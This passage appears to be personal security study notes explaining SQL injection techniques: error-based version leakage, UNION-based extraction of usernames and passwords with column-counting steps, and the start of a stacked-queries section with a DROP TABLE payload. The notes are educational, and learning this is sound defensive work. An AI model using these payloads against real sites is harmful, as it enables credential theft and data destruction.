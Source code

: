 >
>Eg, lets say the original query is:
>```sql
>SELECT * FROM users WHERE id = $id;
>```
>And the user supplies (via https://example.com/profile.php?id=1):
>```sql
>?id=1
>```
>Now an attacker tries (ignore backslashes):
>```sql
>?id=1' AND (SELECT 1 FROM (SELECT COUNT(\*), CONCAT((SELECT @@version), FLOOR(RAND(0)\*2)) AS x FROM information_schema.tables GROUP BY x) a)-- -
>```
>This intentionally causes a duplicate entry error due to the `GROUP BY` with `RAND()` - but the error message includes the output of `@@version`, which leaks the database version.
>
>##### UNION-based SQL injection
>>[!exploit]
>>The attacker can use the SQL `UNION` operator to combine the results of two or more SELECT queries - one legitimate and one injected - to retrieve data from other tables in the database.
>
>The SQL `UNION` operator combines the results of two `SELECT` statements as long as: (1) both queries return the same number of columns, and (2) the columns have compatible data types. For example:
>```sql
>SELECT id, username FROM users
>UNION
>SELECT id, email FROM customers;
>```
>Let's say this is the vulnerable SQL syntax (via https://example.com/product.php?id=3):
>```sql
>SELECT name, price FROM products WHERE id = $id;
>```
>If an attacker can inject something like:
>```sql
>?id=3 UNION SELECT username, password FROM users-- -
>```
>Which turns the SQL query into:
>```sql
>SELECT name, price FROM products WHERE id = 3
>UNION
>SELECT username, password FROM users;
>```
>Now the page might display usernames and hashes instead of product info.
>###### Steps to perform UNION SQLi
>1. Confirm the injection point
>2. Find the number of columns
>```sql
>?id=3 ORDER BY 1--       (works)
>?id=3 ORDER BY 2--       (works)
>?id=3 ORDER BY 3--       (error → only 2 columns)
>```
>3. Inject your own SELECT with same number of columns and same data types (eg cannot inject a string into an integer column):
>```sql
>?id=-1 UNION SELECT username, password FROM users-- 
>```
>
>##### Stacked queries
>>[!exploit]
>>Multiple SQL statements are executed in one request by separating them with a semicolon (`;`). For example:
>>```sql
>>SELECT * FROM users WHERE id = 1; DROP TABLE users;